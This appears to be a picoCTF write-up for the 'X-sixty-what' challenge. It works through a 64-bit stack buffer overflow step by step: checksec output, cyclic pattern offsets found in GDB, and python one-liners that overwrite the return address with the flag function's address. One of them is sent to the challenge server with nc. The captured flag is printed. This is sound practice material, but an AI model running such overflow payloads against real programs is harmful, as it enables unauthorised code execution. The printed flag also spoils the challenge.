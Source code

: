 # Exp

# Flag: picoCTF{b1663r_15_b3773r_be31178c}

```
checksec vuln
[*] '/home/user/picoCTF/X-sixty-what/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

msf-pattern_create -l 400                      
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A

In GDB
RBP: 0x3363413263413163 ('c1Ac2Ac3')

msf-pattern_offset -l 400 -q 0x3363413263413163
[*] Exact match at offset 64

gdb > info functions
0x0000000000401236 flag

python2.7 -c "print('A' * 72 + '\x36\x12\x40\x00\x00\x00\x00\x00')" | ./vuln



gdb-peda$ i f
Stack level 0, frame at 0x7fffffffde28:
 rip = 0x4012d1 in vuln; saved rip = 0x6341356341346341


msf-pattern_offset -l 400 -q 0x6341356341346341
[*] Exact match at offset 72


# Works locally
python  -c "print((b'A'*72 + b'\x00\x00\x00\x00\x40\x12\x36'[::-1]).decode())" | ./vuln

# Works remotely
## Hint: Jump to the second instruction (the one after the first push) in the flag function, if you're getting mysterious segmentation faults.
python  -c "print((b'A'*72 + b'\x00\x00\x00\x00\x40\x12\x3b'[::-1]).decode())" | nc saturn.picoctf.net 58459
Welcome to 64-bit. Give me a string that gets you the flag: 
picoCTF{b1663r_15_b3773r_be31178c}